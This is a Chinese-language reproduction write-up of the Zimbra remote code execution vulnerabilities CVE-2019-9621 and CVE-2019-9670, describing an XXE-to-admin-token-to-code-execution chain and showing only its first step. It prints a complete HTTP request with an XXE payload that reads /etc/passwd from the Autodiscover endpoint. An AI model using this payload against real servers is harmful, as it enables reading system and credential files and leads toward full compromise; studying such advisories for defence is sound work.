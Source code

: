 （CVE-2019-9621）（CVE-2019-9670）Zimbra 远程代码执行漏洞
=========================================================

一、漏洞简介
------------

当 Zimbra
存在像任意文件读取、XXE（xml外部实体注入）这种漏洞时，攻击者可以利用此漏洞读取
localconfig.xml配置文件，获取到 zimbra admin ldap password，并通过 7071
admin 端口进行 SOAP AuthRequest 认证，得到 admin
authtoken漏洞是利用XXE和ProxyServlet SSRF 漏洞拿到 admin authtoken
后，通过文件上传在服务端执行任意代码，威胁程度极高。当Zimbra服务端打来Memcached缓存服务是，可以利用SSRF攻击进行反序列化执行远程代码。不过由于Zimbra在单服务器安装中尽管Memcached虽然启动但是并没有进行使用，所以其攻击场景受到限制。

二、漏洞影响
------------

ZimbraCollaboration Server 8.8.11 之前的版本都受到影响。具体来说：

-   Zimbra \< 8.7.11
    版本中，攻击者可以在无需登录的情况下，实现远程代码执行。
-   Zimbra \< 8.8.11 版本中，在服务端使用 Memcached
    做缓存的情况下，经过登录认证后的攻击者可以实现远程代码执行。

三、复现过程
------------

### 第一步：检测是否存在xxe漏洞

    POST /Autodiscover/Autodiscover.xml HTTP/1.1  
    Host: www.0-sec.org  
    User-Agent: Mozilla/5.0 (Windows NT 10.0;) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/  
    Content-Type: application/soap+xml  
    Content-Length: 436  
    Connection: close  
    Cookie: ZM_TEST=true  
    Upgrade-Insecure-Requests: 1  

    <!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
     <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
        <Request>
          <EMailAddress>aaaaa</EMailAddress>
          <AcceptableResponseSchema>&xxe;</AcceptableResponseSchema>
        </Request>
      </Autodiscover>

![1.png](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId25.png)
